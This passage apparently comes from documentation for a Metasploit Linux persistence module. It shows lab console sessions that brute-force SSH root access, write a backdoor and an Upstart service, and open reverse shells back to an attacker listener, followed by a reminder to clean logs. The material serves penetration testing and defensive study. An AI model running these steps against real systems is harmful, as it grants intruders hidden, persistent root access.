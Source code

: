 Reboot the box to prove persistence

    reboot
    ^Z
    Background session 2? [y/N]  y
    msf exploit(service_persistence) > use exploit/multi/handler
    msf exploit(handler) > set payload cmd/unix/reverse_netcat
    payload => cmd/unix/reverse_netcat
    msf exploit(handler) > set lhost 192.168.199.128
    lhost => 192.168.199.128
    msf exploit(handler) > exploit
    
    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Starting the payload handler...
    [*] Command shell session 3 opened (192.168.199.128:4444 -> 192.168.199.131:44744) at 2016-06-22 14:29:32 -0400


### Upstart (Ubuntu 14.04.4 Server - root)
Of note, I allowed Root login via SSH w/ password only to gain easy initial access

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] 10.10.60.175:22 SSH - Starting bruteforce
    [+] 10.10.60.175:22 SSH - Success: 'root:ubuntu' 'uid=0(root) gid=0(root) groups=0(root) Linux ubuntu 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:27 UTC 2016 i686 i686 i686 GNU/Linux '
    [*] Command shell session 1 opened (10.10.60.168:43945 -> 10.10.60.175:22) at 2016-06-22 08:03:15 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Install our callback service (Upstart)

    msf auxiliary(ssh_login) > use exploit/linux/local/service_persistence
    msf exploit(service_persistence) > set session 1
    session => 1
    msf exploit(service_persistence) > set verbose true
    verbose => true
    msf exploit(service_persistence) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(service_persistence) > set lhost 10.10.60.168
    lhost => 10.10.60.168
    msf exploit(service_persistence) > exploit
    
    [*] Started reverse handler on 10.10.60.168:4444 
    [*] Writing backdoor to /usr/local/bin/bmmjv
    [*] Max line length is 65537
    [*] Writing 429 bytes in 1 chunks of 1650 bytes (octal-encoded), using printf
    [*] Utilizing Upstart
    [*] Writing /etc/init/Hipnufl.conf
    [*] Max line length is 65537
    [*] Writing 236 bytes in 1 chunks of 874 bytes (octal-encoded), using printf
    [*] Starting service
    [*] Dont forget to clean logs: /var/log/upstart/Hipnufl.log
    [*] Command shell session 5 opened (10.10.60.168:4444 -> 10.10.60.175:44368) at 2016-06-22 08:23:46 -0400
